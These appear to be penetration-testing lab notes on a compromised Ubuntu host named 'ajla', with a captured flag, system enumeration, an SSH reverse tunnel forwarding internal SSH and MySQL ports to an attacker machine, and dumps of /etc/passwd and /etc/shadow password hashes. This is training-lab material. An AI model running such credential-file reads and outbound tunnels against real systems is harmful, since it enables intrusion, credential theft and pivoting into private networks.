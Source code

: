 **Proof.txt Contents:**
```
cat proof.txt
5e584c86f32741226abdf0dd3356e4dc
```
---
## Notes
- http://sandbox.local/wp-includes/
- http://sandbox.local/wp-admin/

- IP `192.168.119.215`
- ifconfig
    ```
    ens160    Link encap:Ethernet  HWaddr 00:50:56:bf:89:f8  
            inet addr:**10.4.4.10**  Bcast:**10.4.4.255**  Mask:255
    ```
    ```
    hostname
    **ajla**
    ```
    ```
    cat /etc/issue	
    **Ubuntu 16.04** LTS \n \l

    cat /proc/version
    Linux version **4.4.0-21-generic** (buildd@lgw01-21) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
    ```
- ~/.ssh/authorized_keys
    ```
    from="10.11.1.250",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-ras ssh-ras
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGcmUq7G1jVw94u0mFXVOWeJtPfYVlbAztdl9nwVmiMgc+6bQ1HfGb5P6F4BJbipD52fxmRzfzeyOYrdr8Aceyw6eivkqNLZFq5mC6347/ApMozaPlIYORyFxsDkDLd8vcuNJhbrj6K4XsAxM/59QgwcJkMiE7rbGPh0gEx+yuwyR1vaCfDa1h542mfmdXnu2I6zF7gLe/+XWfdq9uZj7J8BOZTp0vHrg0cfkbmot7hapnGuVZmrWwuSsyP5ZHgG/qobEQdN1k54vGfrmQBR8pt6bLWIvhCb7TucNufa8P2OoF9EE00ep07iDhbUwCNvdJu+kSfwT4GrBRsvyU+Zzn www-data@ajla
    ```
- ssh command on the WordPress Host
    ```
    ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.215
    ```
- cat /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
ajla:x:1000:1000:service,,,:/home/ajla:/bin/bash
```
- cat /etc/shadow
```
SHA-256
root:$6$L.DEQk09$DhGD609Wq5aZf0GQPMZYOqiIxxyUwvVBnahArgD.yoVgoxeQeNn3R.JbL0HcmsU1lT1oCrciYlGkfatyobKJH0:18249:0:99999:7:::

ajla:$6$OLfdLDQT$7Q2mzNaQEudRSaHZck3P165EI3OVlgdCwPXrUyiNmItYb7fc/z5RvPc.4VeMgsGMq1H7Wl3HH/dUP2ELRjc2t1:18184:0:99999:7:::
```
